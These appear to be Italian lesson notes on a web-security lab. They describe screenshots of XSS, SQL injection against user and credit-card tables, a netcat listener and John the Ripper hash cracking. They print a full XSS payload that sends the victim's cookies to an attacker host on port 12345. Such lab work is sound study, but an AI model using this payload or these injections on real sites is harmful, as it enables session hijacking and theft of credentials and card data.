 # LezioneS6_L5

Screenshot 1:  Lo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> imposta la posizione del browser a un URL specifico (http://192.168.50.100:12345/)
               aggiungendo i cookie dell'utente (document.cookie) alla fine dell'URL come parametro.
Screenshot 2:  Il server rimane in ascolto sulla porta 12345. Quando un client si connetterà a questa porta, netcat mostrerà i dati inviati dal client sullo stdout
Screenshot 3:  La stringa è un'attacco di SQL injection per recuperare le informazioni sugli utenti e le password dalla tabella users di un database.
Screenshot 4:  Il comando esguito è una chiamata al programma John the Ripper, un popolare strumento di cracking delle password. Questo comando viene utilizzato per eseguire un attacco di forza bruta o di dizionario per cercare di recuperare le password da un file hash MD5.
Screenshot 5:  Questa stringa è simile allo screenshot 3, dove l'obiettivo è quello di ottenere informazioni sensibili come il numero della carta di credito (ccnumber) e il codice di verifica della carta di credito (ccv) dalla tabella credit_cards.
Screenshot 6:  Questa stringa è un tentativo di attacco di SQL injection, simile allo Screenshot 3 e 5. L'obiettivo sembra essere quello di recuperare informazioni sensibili come i numeri 
               delle carte di credito (ccnumber) e le date di scadenza delle carte di credito (expiration) dalla tabella credit_cards di un database, presumibilmente all'interno di un'applicazione vulnerabile.
Screenshot 7:  Questa stringa esegue un'attacco di SQL injection per ottenere informazioni sulle colonne della tabella credit_cards da uno schema di informazioni (information_schema).
Screenshot 8:  Questa stringa è un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
Screenshot 9:  Questa stringa esegue un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
Screenshot 10: Questa stringa esegue un attacco di SQL injection per recuperare informazioni sulle colonne della tabella 'users' utilizzando lo schema di informazioni (information_schema)
Screenshot 11: Questa stringa esegue un attacco di Cross-Site Scripting (XSS) inserendo uno script JavaScript malevolo all'interno di un input, come un campo di un modulo web.
               Lo script <script>alert(document.cookie)</script> è progettato per mostrare una finestra di avviso nel browser dell'utente contenente il valore dei cookie del sito web corrente.
Screenshot 12: Questa stringa esegue un'attacco di SQL injection in ambiente security level Medium per recuperare le informazioni sugli utenti e le relative password dalla tabella users di un database. 
               L'obiettivo di questa query è quello di combinare i risultati della condizione 1 = 1 (che è sempre vera) con i risultati della selezione delle colonne user e password dalla tabella users.

